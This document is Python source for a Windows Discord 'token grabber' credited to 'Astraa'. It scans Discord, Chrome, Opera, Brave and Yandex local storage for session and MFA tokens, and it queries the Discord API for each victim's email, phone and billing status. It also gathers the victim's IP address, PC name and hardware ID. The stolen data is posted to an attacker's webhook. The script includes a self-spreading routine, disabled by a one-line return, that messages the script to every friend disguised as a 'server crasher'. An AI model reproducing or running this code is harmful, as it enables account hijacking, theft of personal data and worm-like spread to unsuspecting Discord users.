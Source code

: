 import os
if os.name != "nt":
    exit()
from re import findall
from json import loads, dumps
from base64 import b64decode
from subprocess import Popen, PIPE
from urllib.request import Request, urlopen
from datetime import datetime
from threading import Thread
from time import sleep
from sys import argv
LOCAL = os.getenv("LOCALAPPDATA")
ROAMING = os.getenv("APPDATA")
PATHS = {
    "Discord"           : ROAMING + "\\Discord",
    "Discord Canary"    : ROAMING + "\\discordcanary",
    "Discord PTB"       : ROAMING + "\\discordptb",
    "Google Chrome"     : LOCAL + "\\Google\\Chrome\\User Data\\Default",
    "Opera"             : ROAMING + "\\Opera Software\\Opera Stable",
    "Opera GX"          : ROAMING + "\\Opera Software\\Opera GX Stable",
    "Brave"             : LOCAL + "\\BraveSoftware\\Brave-Browser\\User Data\\Default",
    "Yandex"            : LOCAL + "\\Yandex\\YandexBrowser\\User Data\\Default"
}
def getheaders(token=None, content_type="application/json"):
    headers = {
        "Content-Type": content_type,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"
    }
    if token:
        headers.update({"Authorization": token})
    return headers
def getuserdata(token):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me", headers=getheaders(token))).read().decode())
    except:
        pass
def gettokens(path):
    path += "\\Local Storage\\leveldb"
    tokens = []
    for file_name in os.listdir(path):
        if not file_name.endswith(".log") and not file_name.endswith(".ldb"):
            continue
        for line in [x.strip() for x in open(f"{path}\\{file_name}", errors="ignore").readlines() if x.strip()]:
            for regex in (r"[\w-]{24}\.[\w-]{6}\.[\w-]{27}", r"mfa\.[\w-]{84}"):
                for token in findall(regex, line):
                    tokens.append(token)
    return tokens
def getdeveloper():
    dev = "wodx"
    try:
        dev = urlopen(Request("https://pastebin.com/raw/ssFxiejv")).read().decode()
    except:
        pass
    return dev
def getip():
    ip = "None"
    try:
        ip = urlopen(Request("https://api.ipify.org")).read().decode().strip()
    except:
        pass
    return ip
def getavatar(uid, aid):
    url = f"https://cdn.discordapp.com/avatars/{uid}/{aid}.gif"
    try:
        urlopen(Request(url))
    except:
        url = url[:-4]
    return url
def gethwid():
    p = Popen("wmic csproduct get uuid", shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
    return (p.stdout.read() + p.stderr.read()).decode().split("\n")[1]
def getfriends(token):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/relationships", headers=getheaders(token))).read().decode())
    except:
        pass
def getchat(token, uid):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/channels", headers=getheaders(token), data=dumps({"recipient_id": uid}).encode())).read().decode())["id"]
    except:
        pass
def has_payment_methods(token):
    try:
        return bool(len(loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/billing/payment-sources", headers=getheaders(token))).read().decode())) > 0)
    except:
        pass
def send_message(token, chat_id, form_data):
    try:
        urlopen(Request(f"https://discordapp.com/api/v6/channels/{chat_id}/messages", headers=getheaders(token, "multipart/form-data; boundary=---------------------------325414537030329320151394843687"), data=form_data.encode())).read().decode()
    except:
        pass
def spread(token, form_data, delay):
    return # Remove to re-enabled
    for friend in getfriends(token):
        try:
            chat_id = getchat(token, friend["id"])
            send_message(token, chat_id, form_data)
        except Exception as e:
            pass
        sleep(delay)
def main():
    cache_path = ROAMING + "\\.cache~$"
    prevent_spam = True
    self_spread = True
    embeds = []
    working = []
    checked = []
    already_cached_tokens = []
    working_ids = []
    ip = getip()
    pc_username = os.getenv("UserName")
    pc_name = os.getenv("COMPUTERNAME")
    user_path_name = os.getenv("userprofile").split("\\")[2]
    developer = getdeveloper()
    for platform, path in PATHS.items():
        if not os.path.exists(path):
            continue
        for token in gettokens(path):
            if token in checked:
                continue
            checked.append(token)
            uid = None
            if not token.startswith("mfa."):
                try:
                    uid = b64decode(token.split(".")[0].encode()).decode()
                except:
                    pass
                if not uid or uid in working_ids:
                    continue
            user_data = getuserdata(token)
            if not user_data:
                continue
            working_ids.append(uid)
            working.append(token)
            username = user_data["username"] + "#" + str(user_data["discriminator"])
            user_id = user_data["id"]
            avatar_id = user_data["avatar"]
            avatar_url = getavatar(user_id, avatar_id)
            email = user_data.get("email")
            phone = user_data.get("phone")
            nitro = bool(user_data.get("premium_type"))
            billing = bool(has_payment_methods(token))
            embed = {
                "color": 0x7289da,
                "fields": [
                    {
                        "name": "**Account Info**",
                        "value": f'Email: {email}\nPhone: {phone}\nNitro: {nitro}\nBilling Info: {billing}',
                        "inline": True
                    },
                    {
                        "name": "**PC Info**",
                        "value": f'IP: {ip}\nUsername: {pc_username}\nPC Name: {pc_name}\nToken Location: {platform}',
                        "inline": True
                    },
                    {
                        "name": "**Token**",
                        "value": token,
                        "inline": False
                    }
                ],
                "author": {
                    "name": f"{username} ({user_id})",
                    "icon_url": avatar_url
                },
                "footer": {
                    "text": f"Token Grabber By Astraa",
                }
            }
            embeds.append(embed)
    with open(cache_path, "a") as file:
        for token in checked:
            if not token in already_cached_tokens:
                file.write(token + "\n")
    if len(working) == 0:
        working.append('123')
    webhook = {
        "content": "",
        "embeds": embeds,
        "username": "Discord Token Grabber",
        "avatar_url": "https://discordapp.com/assets/5ccabf62108d5a8074ddd95af2211727.png"
    }
    try:
        urlopen(Request("WEBHOOK_URL", data=dumps(webhook).encode(), headers=getheaders()))
    except:
        pass
    if self_spread:
        for token in working:
            with open(argv[0], encoding="utf-8") as file:
                content = file.read()
            payload = f'-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="file"; filename="{__file__}"\nContent-Type: text/plain\n\n{content}\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="content"\n\nserver crasher. python download: https://www.python.org/downloads\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="tts"\n\nfalse\n-----------------------------325414537030329320151394843687--'
            Thread(target=spread, args=(token, payload, 7500 / 1000)).start()
try:
    main()
except Exception as e:
    print(e)
    pass
